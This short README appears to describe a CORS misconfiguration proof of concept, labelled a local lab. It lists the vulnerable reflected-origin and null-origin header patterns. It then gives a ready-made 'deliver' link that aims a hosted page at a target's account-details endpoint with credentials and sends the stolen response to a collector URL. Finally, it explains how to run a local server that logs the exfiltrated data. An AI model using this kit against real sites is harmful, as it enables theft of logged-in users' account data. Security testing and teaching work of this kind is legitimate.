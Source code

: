 # CORS PoC (local lab)
case 1 reflections
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true

case 2 null origin
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

Now you can send a single “deliver” link such as:
https://ythone.github.io/cors_poc/deliver.html?target=https://TARGET/accountDetails&creds=1&exfil=https://your-collector.example/collect

https://ythone.github.io/cors_poc/deliver.html
  ?target=https://TARGET/accountDetails
  &creds=1
  &exfil=https://your-collector.example/collect


Run locally:

npm i
node server.js
# -> POST target data to http://localhost:8089/collect ; view http://localhost:8089/logs


Point your PoC’s exfil to that /collect endpoint.
